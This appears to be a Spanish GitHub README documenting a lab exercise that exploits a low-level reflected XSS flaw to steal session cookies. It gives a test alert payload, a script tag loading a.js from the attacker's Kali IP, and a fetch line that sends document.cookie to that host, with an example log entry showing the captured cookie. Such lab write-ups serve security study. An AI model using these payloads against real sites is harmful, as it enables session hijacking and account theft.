# Explotación de Vulnerabilidad XSS para Robo de Cookies (Nivel Bajo)

## Descripción

Este repositorio documenta un ejercicio práctico de explotación de una vulnerabilidad de Cross-Site Scripting (XSS) de tipo reflejado de nivel bajo. El objetivo principal es demostrar cómo un atacante puede inyectar código JavaScript malicioso en una página web vulnerable para robar la cookie de sesión de un usuario autenticado.

## Herramientas Necesarias

* **Servidor Web Temporal:** Necesario para recibir la cookie robada. Se puede utilizar un servidor simple como `netcat` o un servidor HTTP más completo como `SimpleHTTPServer` de Python.
* **Navegador Web:** Para interactuar con la página web vulnerable e inyectar el payload.

## Pasos para la Explotación

1.  **Identificar el Punto de Inyección:**
    * Se identificó un formulario web con un campo de entrada de texto.
    * Al ingresar un nombre y hacer clic en "Submit", la aplicación muestra un saludo como "Hello [nombre_ingresado]". Esto indica que la entrada del usuario se refleja en la página sin un saneamiento adecuado, lo que sugiere una posible vulnerabilidad XSS.

2.  **Verificar la Posibilidad de Inyección de JavaScript:**
    * Se inyectó el siguiente payload en el campo del formulario:
        ```html
        <script>alert('¡XSS!');</script>
        ```
![imagen vulnerabilidad 1](../../assets/XSSReflectedLow01.png)

    * Al hacer clic en "Submit", la aparición de una ventana de alerta con el texto "¡XSS!" confirmó la capacidad de ejecutar código JavaScript en la página.

![imagen vulnerabilidad 2](../../assets/XSSReflectedLow02.png)

3.  **Preparar el Payload para Robo de Cookies:**
    * Se preparó un payload para enviar la cookie al servidor web temporal. Se asumió que el servidor web está corriendo y escuchando en el puerto `9999`.
    * Se inyectó el siguiente payload en el campo del formulario, reemplazando `[tu_Kali_IP]` con la dirección IP de la máquina donde se ejecuta el servidor web temporal:
        ```html
        <script src="http://[tu_Kali_IP]:9999/a.js"></script>
        ```
    * Se creó un archivo llamado `a.js` en el servidor web temporal con el siguiente código JavaScript (asegurándose de reemplazar `[tu_Kali_IP]` con la dirección IP correcta):
        ```javascript
        fetch('http://[tu_Kali_IP]:9999/?cookie=' + document.cookie);
        ```

4.  **Enviar el Payload:**
    * Se hizo clic en el botón "Submit" del formulario con el payload inyectado.

5.  **Verificar la Inyección en el Código Fuente (Opcional pero Recomendado):**
    * Se inspeccionó el código fuente de la página resultante para confirmar que el payload `<script src="http://[tu_Kali_IP]:9999/a.js"></script>` se había insertado correctamente en el HTML.

6.  **Analizar los Logs del Servidor Web Temporal:**
    * Se revisaron los logs del servidor web temporal. Se esperaba una petición `GET` entrante a la ruta `/` con un parámetro `cookie` en la URL.
    * Un ejemplo de una entrada en el log esperada es:
        ```
        [IP_del_usuario] - - [fecha_y_hora] "GET /?cookie=PHPSESSID=valor_de_la_cookie; otra_cookie=otro_valor HTTP/1.1" 404 - "-" "Mozilla/5.0 ..."
        ```
    * La cookie robada (por ejemplo, `PHPSESSID`) estaría visible en los logs del servidor.

![imagen vulnerabilidad 2](../../assets/XSSReflectedLow02.png)

## Resultado

La explotación exitosa de la vulnerabilidad XSS permitió robar la cookie de un usuario que visitó la página con el payload inyectado. Esta cookie podría potencialmente ser utilizada por un atacante para secuestrar la sesión del usuario si no está debidamente protegida (por ejemplo, con `HttpOnly` flag).